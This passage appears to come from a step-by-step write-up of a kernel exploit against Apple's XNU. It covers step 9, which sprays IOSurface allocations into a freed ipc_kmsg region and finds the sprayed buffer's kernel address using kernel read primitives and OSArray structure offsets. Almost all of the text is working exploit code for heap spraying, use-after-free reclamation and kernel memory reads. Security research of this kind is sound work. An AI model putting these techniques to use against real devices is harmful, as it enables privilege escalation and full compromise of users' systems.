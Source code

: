 ```cpp
mach_port_destroy(mach_task_self(), placeholder_message_port);
```

![image.png](pics/image%209.png)

## 9. Allocating 8-page spray_buffer in freed ipc_kmsg2 region

This step is carried out in the same way as described in step 7.

```cpp
    uint32_t spray_buffer_key = transpose(property_index++);
    ret = IOSurface_kmem_alloc_spray(spray_buffer, 8 * pagesize, 80 MB / (8 * pagesize), spray_buffer_key);
    if (ret) {
        printf("[-] Failed to spray\n");
        goto err;
    }
```

- Code to get `spray_buffer` address allocated using IOSurface.

```cpp
    #if ENABLE_HELPER
    dict = kernel_fetch_dict(userspaceValueDicts);
    uint64_t spray_buffer_addr = 0;
    
    for (int i = 0; i < dict->count; i++) {
        if(dict->items[i].value) {
            uint32_t osarray_count = kread32(dict->items[i].value + 0x14);	// 0x14 = p/x offsetof(OSArray, count)
            uint32_t osarray_capacity = kread32(dict->items[i].value + 0x18);	// 0x18 = p/x offsetof(OSArray, capacity)
            uint64_t osarray_array = kread64(dict->items[i].value + 0x20);    // 0x20 = p/x offsetof(OSArray, array)    

            if(osarray_count == (80 MB / (8 * pagesize)) && i == 2) {
                SUCCESS("Found our 3rd sprayed IOSurface data!\n");
                INFO("osarray_count = 0x%x, osarray_capacity = 0x%x\n", osarray_capacity, osarray_capacity);

                for(uint32_t j = 0; j < osarray_count; j++) {
                    uint64_t osdata_in_osarray = OSArray_objectAtIndex(dict->items[i].value, j);
                    uint64_t kbuffer = OSData_buffer(osdata_in_osarray);
                    // printf("osdata_in_osarray = 0x%llx\n", osdata_in_osarray);
                    // printf("osdata_kbuffer(OSArray[%u]) = 0x%llx\n", j, kbuffer);
                    if(ipc_kmsg_addr < kbuffer && kbuffer < oolports_kptr) {
                        spray_buffer_addr = kbuffer;
                        break;
                    }
                }
                // spray_buffer_addr = kbuffer;
            }
        }
    }

    printf("\n\n=================== Overall Info ===================\n");
    printf("seglist =                   0x%llx\n", segment_list_shmem_data_kva);
```